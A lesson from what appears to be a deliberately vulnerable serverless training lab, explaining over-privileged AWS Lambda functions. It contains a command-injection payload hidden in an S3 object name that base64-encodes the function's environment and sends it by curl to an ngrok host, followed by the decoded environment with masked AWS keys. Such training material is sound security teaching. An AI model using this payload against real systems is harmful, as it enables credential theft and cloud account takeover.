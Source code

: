 # LESSON #7: Over-Privileged Function

Maybe one of the most fundamental security vulnerabilities in serverless applicaiton are over-privileged functions. [Previous research](https://www.protego.io/protego-labs-finds-nearly-all-serverless-application-functions-at-risk/) has found that almost all functions are configured with more permissions than what they actually need.

Let's see what we can do with that:

We already saw that one of the functions is vulnerable to command injection through an [insecure s3 configuration](../LESSONS/LESSON_04.md), so we can leverage that and steal the function's keys. By stealing the keys (AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY and AWS_ACCESS_KEY_ID), we will be able to assume the function's temporary execution role.

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;b=`env|base64 --wrap=0`;curl 0c971764.ngrok.io?data=$b;echo x.raw' --profile hacker
```

It's not hard to find the relevant keys in the base64 string that we got:

![alt base64-keys]()

Decoding them (```echo <BASE64> | base64 --decode```) will reveal:
```
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/DVSA-SEND-RECEIPT-EMAIL
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/12/23/[$LATEST]ce7961b403ba4b47806460db4bc62944
AWS_EXECUTION_ENV=AWS_Lambda_python2.7
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_LAMBDA_FUNCTION_NAME=DVSA-SEND-RECEIPT-EMAIL
PATH=/usr/local/bin:/usr/bin/:/bin:/opt/bin
SOURCE_EMAIL=tal+dvsa+noreply@protego.io
AWS_DEFAULT_REGION=us-east-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxxI8g7+XkMv/6tuC7xxxxxxxxxx
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=us-east-1
TZ=:UTC
ORDERS_TABLE=DVSA-ORDERS-DB
AWS_ACCESS_KEY_ID=ASIAYXXXXXXXXXXXXXXX
SHLVL=1
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
PYTHONPATH=/var/runtime
_X_AMZN_TRACE_ID=Root=1-5c20008f-d0654774095bf9f0cccb36e8;Parent=27d7de2b3f60098a;Sampled=0
AWS_SECURITY_TOKEN=XXXXXXXXXXXXXXX//////////wEaDAz8TBS...gBQ==
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
_HANDLER=lambda_function.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=256
_=/usr/bin/env

```



